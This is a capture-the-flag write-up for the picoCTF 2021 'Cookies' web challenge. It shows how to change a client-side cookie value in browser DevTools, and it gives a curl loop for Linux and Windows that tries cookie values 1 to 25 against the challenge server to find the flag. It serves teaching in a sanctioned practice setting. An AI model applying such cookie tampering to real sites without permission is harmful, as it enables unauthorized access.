 # Cookies

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 40
Tags: picoCTF 2021, Web Exploitation
Author: MADSTACKS
 
Description:
Who doesn't love cookies? Try to figure out the best one. 

http://mercury.picoctf.net:27177/

Hints:
(None)
```
Challenge link: [https://play.picoctf.org/practice/challenge/173](https://play.picoctf.org/practice/challenge/173)

## Solution

As the challenge name indicates we should keep an eye out for [cookies](https://en.wikipedia.org/wiki/HTTP_cookie) here.  
There probably are more ways to solve this challenge, but here are two solutions.

### Manual DevTools solution

Browse to the web site with your browser (I used Google Chrome).  
Then as hinted in the search text box, search for 'snickerdoodle'.  
You get a "I love snickerdoodle cookies!" message as response.  
Press F12 to open DevTools and go to the `Application` tab.  
Under `Storage` and then `Cookies` select the web site.  
Note that there is a cookie named `name` with the value of `0`.

Right-click on the value and `Edit "Value"`. Change the value to `1`.  
Reload the page by pressing `F5` and note that the message changes to "I love chocolate chip cookies!".  
Depending on the value of the cookie we get different messages.

Continue increasing the value of the cookie until you see the flag in the returned message.  
The correct value is `18`.

### Semi-scripted curl solution

If we don't want to manually edit the cookie value we can enumerate the cookie values in a semi-scripted way and then use `curl` to retreive the web site and `grep` for the flag.

In Linux
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Cookies]
└─$ for c in $(seq 1 25); do curl -s --cookie "name=$c" http://mercury.picoctf.net:27177/check | grep picoCTF ; done
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_<REDACTED>}</code></p>
```

The Windows syntax is slightly similar
```
Z:\CTFs\picoCTF\picoCTF_2021\Web_Exploitation\Cookies>for /L %c in (1,1,25) do curl -s --cookie "name=%c" http://mercury.picoctf.net:27177/check | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_<REDACTED>}</code></p>
```

Here [Grep for Windows](https://gnuwin32.sourceforge.net/packages/grep.htm) and [curl for Windows](https://curl.se/windows/) was used.

For additional information, please see the references below.

## References

- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [grep - Linux manual page](https://man7.org/linux/man-pages/man1/grep.1.html)
- [seq - Linux manual page](https://man7.org/linux/man-pages/man1/seq.1.html)
- [MDN - Using HTTP cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)
- [Wikipedia - HTTP cookie](https://en.wikipedia.org/wiki/HTTP_cookie)
